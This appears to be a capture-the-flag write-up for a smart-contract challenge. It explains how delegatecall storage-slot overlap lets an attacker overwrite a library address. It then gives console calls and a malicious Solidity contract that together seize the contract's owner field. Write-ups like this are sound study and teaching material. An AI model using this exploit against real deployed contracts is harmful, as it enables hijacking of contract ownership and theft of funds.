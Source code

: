 When using `delegatecall` accessing storage in the delagatee can be dangerous. This is because the storage slots in the delegatee contract will overlap with the storage slots from the delegator contract, which means code from the delegatee can inadvertently change fields in the delegator. More details about this bug can be found in https://ethereum.stackexchange.com/questions/57418/scope-confusion-using-delegate-call.

To determine if there is an issue we can first do this:
```javascript
await contract.setSecondTime("0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff")
```

Now querying the timeZone1Library field of the delegator we can see that it has been overwritten with part of our provided value.
```javascript
await contract.timeZone1Library()
"0xffffffffffffffffffffffffffffffffffffffff"
```

This address that has been overwritten is the address that will be delegated to for the function call, which means that we can deploy our own contract and delegate the execution to that.

We create a test contract like so:
```solidity
pragma solidity ^0.4.18;


contract Preservation {
    uint256 firstSlot;
    uint256 secondSlot;
    uint256 thirdSlot;
    
    function setTime(uint256) public {
        firstSlot = 0xdeadbeefdeadbeefdeadbeefdeadbeef;
        secondSlot = 0xcafebabecafebabecafebabecafebabe;
        thirdSlot = 0xdeadc0dedeadc0dedeadc0dedeadc0de;
    }
}
```

And overwrite the delagatee address with the address of our contract:
```javascript
await contract.setSecondTime("0xaa811B99102368B78D07b87Ed92b222Ae1cBb61F")
```

Querying the public state we can now see that the first three slots have been overwritten with each of our values. The owner field is the one which we want to overwrite, which we can see correspondings to `0x00000000deadc0dedeadc0dedeadc0dedeadc0de`, i.e. `thirdSlot`.
```javascript
await contract.timeZone1Library()
"0x00000000deadbeefdeadbeefdeadbeefdeadbeef"
await contract.timeZone2Library()
"0x00000000cafebabecafebabecafebabecafebabe"
await contract.owner()
"0x00000000deadc0dedeadc0dedeadc0dedeadc0de"
```

With this information we can deploy a new contract which will overwrite the `owner` slot with our own address.
```solidity
pragma solidity ^0.4.18;


contract Preservation {
    uint256 firstSlot;
    uint256 secondSlot;
    uint256 thirdSlot;
    
    function setTime(uint256) public {
        thirdSlot = uint256(0x8E0Ff062059376013FA56470805bec01b5aD06cc);
    }
}
```

Now we overwrite the delegatee address to make it point to our contract:
```javascript
await contract.setSecondTime("0xE2ACc7C391008492BCecF14A286d784559F6091A")
```

Finally we can see `owner` has been overwritten to our own address. 
```javascript
await contract.owner()
"0x8e0ff062059376013fa56470805bec01b5ad06cc"
```
